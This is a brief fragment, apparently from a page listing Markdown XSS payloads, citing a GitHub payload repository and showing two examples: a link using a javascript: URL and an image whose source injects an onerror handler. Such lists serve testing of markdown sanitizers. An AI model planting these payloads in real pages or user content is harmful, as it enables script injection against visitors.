 ____
https://github.com/cujanovic/Markdown-XSS-Payloads

Link
```markdown
[a](javascript:alert``)
```

Image
```markdown
![a](x"onerror=alert(1);//)
```

